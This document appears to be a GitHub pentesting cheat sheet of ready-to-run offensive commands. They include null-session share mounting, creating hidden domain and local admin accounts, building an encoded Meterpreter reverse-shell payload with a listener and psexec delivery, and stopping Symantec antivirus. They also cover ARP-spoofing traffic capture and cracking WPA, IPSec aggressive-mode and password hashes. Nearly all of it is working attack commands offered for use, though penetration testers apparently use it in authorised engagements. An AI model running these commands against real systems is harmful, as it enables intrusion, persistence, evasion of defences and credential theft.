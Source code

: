 Pentesting Cheat Sheet
======================
These are various tips and tricks I have found useful on my pentest engagements. Most of these can be found using Google but I decided to put them in a central location to make them easily accessible. Hope they are as helpful to you as they are to me.

Mounting Shares
---------------
To mount an SMB share using a null session do one of the following depending on
the OS you are using.
    Windows> net use x: \\server\share "" /u:
    Linux> mount -t cifs //server/share -o username=,password= /mnt/point

To mount an NFS share on Linux use.
    mount -t nfs server:/share /mnt/point

Administrative Accounts
-----------------------
Add a new Windows domain admin account.
    net user username password /ADD /DOMAIN
    net group "Domain Admins" username /ADD /DOMAIN

Add a new Windows local admin account.
    net user username password /ADD
    net localgroup Administrators username /ADD

Add a new linux account and put them in the wheel group.
    useradd -G wheel username && echo "username:newpass"|chpasswd

Meterpreter Shell Error
-----------------------
If you get the error, "stdapi_sys_process_execute: Operation failed: 1314",
while trying to drop to as shell in meterpreter, try the code below. This is
a known bug in meterpreter.
    execute -f cmd.exe -c -i -H

Metasploit: Custom Psexec Executable
------------------------------------
The first thing we need to do is generate a custom executable to use with Meterpreter.
    msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=4445 R | msfencode -t exe -e x86/shikata_ga_nai -c 5 > custom.exe

Next we need to setup a multi handler to listen for connections.
    msf > use exploit/multi/handler
    msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
    PAYLOAD => windows/meterpreter/reverse_tcp
    msf exploit(handler) > set LHOST 192.168.0.1
    LHOST => 192.168.0.1
    msf exploit(handler) > set LPORT 4445
    LPORT => 4445
    [*] Started reverse handler on 192.168.0.1:4445
    [*] Starting the payload handler...

In another msfconsole session we need to configure the psexec exploit module to use our custom executable.
    msf > use exploit/windows/smb/psexec
    msf exploit(psexec) > set RHOST 192.168.0.2
    RHOST => 192.168.0.2
    msf exploit(psexec) > set SMBUser user
    SMBUser => user
    msf exploit(psexec) > set SMBPass pass
    SMBPass => pass
    msf exploit(psexec) > set EXE::Custom /path/to/custom.exe
    EXE::Custom => /path/to/custom.exe

Finally, we need to run the exploit. If everything worked then you should see a new meterpreter session open in multi/handler
    msf exploit(psexec) > exploit

Disable Antivirus
-----------------
This command will disable Symantec Endpoint Protection. I find it useful when
I have a basic shell on a box and want to upgrade to Meterpreter but Symantec
stops me.
    c:\program files\symantec\symantec endpoint protection\smc -stop

Use Ettercap to Sniff Traffic
-----------------------------
    ettercap -M arp -T -q -i interface /spoof_ip/ /target_ips/ -w output_file.pcap

Cracking WPA/WPA2 PSK
---------------------
Use JtR to generate candidate passwords for aircrack-ng
    john --incremental:all --stdout | aircrack-ng --bssid 00-00-00-00-00-00 -a 2 -w - capture_file.cap

Use Hashcat to generate candidate passwords for aircrack-ng
    ./hashcat-cli32.bin wordlist -r rules/d3ad0ne.rule --stdout | aircrack-ng --bssid 00-00-00-00-00-00 -a 2 -w - capture_file.cap

Cracking IPSec Agressive Mode Pre-Shared Key
--------------------------------------------
If you’ve never done this, read these first.
http://www.nta-monitor.com/wiki/index.php/Ike-scan_User_Guide
http://carnal0wnage.attackresearch.com/2011/12/aggressive-mode-vpn-ike-scan-psk-crack.html

To find aggressive mode VPNS use ike-scan.
    ike-scan -A 192.168.1.0/24

If the default transforms don't work use the generate_transforms.sh script from the user guide above.
    generate-transforms.sh | xargs --max-lines=8 ike-scan 10.0.0.0/24

If you find a SonicWALL VPN using agressive mode it will require a group id, the default group id is GroupVPN
    ike-scan 192.168.1.1 -A -id GroupVPN

Use the -P argument to save the handshake to a file, which can be used by psk-crack.
    ike-scan 192.168.1.1 -A -Ppsk_192.168.1.1.txt

Use a dictionary to crack the pre-shared key.
    psk-crack -d /path/to/dictionary psk_192.168.1.1.txt

Create an IP List with Nmap
---------------------------
I find this particularly useful for tools or scripts that operate on new line delimited list of IP addresses. I can use the simple Nmap syntax to create a file with the list of appropriate IPs.
    nmap -sL -n 192.168.1.1-100,102-254 | grep "report for" | cut -d " " -f 5 > ip_list_192.168.1.txt

Crack Passwords with John and Korelogic Rules
---------------------------------------------
At one point Korelogic released a set of John the Ripper rules in a john.conf file. This bash one liner would grab each ruleset and run JtR with the specified ruleset.
    for ruleset in `grep KoreLogicRules john.conf | cut -d: -f 2 | cut -d\] -f 1`; do ./john --rules:${ruleset} -w:<wordlist> <password_file> ; done
